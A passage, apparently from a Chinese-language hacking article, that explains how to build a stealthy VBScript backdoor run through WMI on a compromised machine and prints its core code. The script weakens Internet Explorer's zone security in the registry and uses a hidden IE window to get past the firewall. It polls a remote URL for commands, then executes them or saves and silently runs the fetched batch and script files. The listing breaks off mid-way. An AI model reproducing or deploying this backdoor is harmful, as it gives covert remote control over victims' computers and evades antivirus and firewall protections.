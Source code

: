 5，WScript对象由wscript.exe或cscript.exe提供，而scrcons.exe没有提供，所以很多常用的功能，比如WScript.Sleep都不能用了。不能Sleep就无法异步使用XMLHTTP，而同步XMLHTTP可能被长时间阻塞，大大不利于后门的隐蔽。调用ping命令来延时会创建新进程，用WScript.Shell的Popup方法延时则有“咚”一声提示音。好在Microsoft.XMLHTTP的“亲戚”不少，比如Msxml2.XMLHTTP、Msxml2.ServerXMLHTTP、Msxml2.DOMDocument、WinHttp.WinHttpRequest等。最后那个可以设置超时时间，刚好满足需要。

即使有重重困难，脚本后门仍然值得挑战一下。当肉鸡上的各类木马纷纷被杀毒软件肃清后，一个24小时才运行一次的脚本后门可能是你最后的希望。

下面是一个简单的脚本后门的核心代码（没有安装功能）：

	cmdu="http://myweb.8866.org/cmd.txt" '从web服务器获取命令的url'
	cmdw=4000 '下载超时时间4秒'
	cmdl="HKLM/SOFTWARE/Microsoft/WBEM/CIMOM/CmdLength" '记录命令长度的键值名'
	
	on error resume next '忽略非致命错误 '（调试时注释掉本行）
	set shl=createobject("WScript.Shell") '虽然不能使用WScript根对象，其子对象还是可以用的'
	set aso=createobject("ADODB.Stream")
	set ie=createobject("InternetExplorer.Application") '使用ie绕过防火墙'
	
	zone="HKCU/SOFTWARE/Microsoft/Windows/CurrentVersion/Internet Settings/Zones/3"
	set1=zone&"/1201"
	set2=zone&"/1400"
	set3=zone&"/CurrentLevel"
	val1=shl.regread(set1) '保存原来的安全设置'
	val2=shl.regread(set2)
	val3=shl.regread(set3)
	regd="REG_DWORD"
	shl.regwrite set1,0,regd '允许在Internet域运行不安全的ActiveX'
	shl.regwrite set2,0,regd '允许活动脚本'
	shl.regwrite set3,0,regd '设置当前Internet域安全级别为“自定义”'
	
	ie.visible=0 ':ie.visible=1 '（调试用）
	ie.navigate "about"&":blank" '这里使用字符串连接纯属反论坛过滤'
	ie.document.write _
	"<script>function whr(){return new ActiveXObject('WinHttp.WinHttpRequest.5.1')}</script>"
	set whr=ie.document.script.whr() '在ie内创建WinHttpRequest对象'
	
	whr.settimeouts cmdw,cmdw,cmdw,cmdw '设置域名解析、连接、发送和接收超时时间'
	whr.open "GET",cmdu,true '获取命令文件'
	whr.send
	if not whr.waitforresponse(cmdw) then die
	if whr.status>299 then die
	rt=whr.responsetext ':wscript.echo rt '（调试用）
	':shl.regwrite cmdl,0,regd '（调试用）
	if len(rt)=shl.regread(cmdl) then die '与前一个命令的长度比较'
	shl.regwrite cmdl,len(rt),regd '更新命令长度'
	cmds=split(rt,vbcrlf,-1)
	if ubound(cmds)<1 then die
	cmdt=lcase(trim(cmds(0))) ':wscript.echo cmdt '（调试用）
	
	aso.type=1
	aso.open
	cd=shl.currentdirectory&chr(92)
	select case cmdt '分析命令文件类型'
		case "'vbs" '是vbs'
			execute(rt) '直接在当前脚本上下文中执行'
			die
		case ":bat" '是批处理'
			aso.write whr.responsebody
			aso.savetofile cd&"_.bat",2 '保存在当前目录'
			aso.close
			shl.run chr(34)&cd&"_.bat""",0 '运行批处理'
			die
		case "'wsh" '是Windows脚本'
			aso.write whr.responsebody
			aso.savetofile cd&"_.vbs",2 '保存在当前目录'
			aso.close
			shl.run "cscript.exe """&cd&"_.vbs""",0 '使用cscript作为脚本宿主'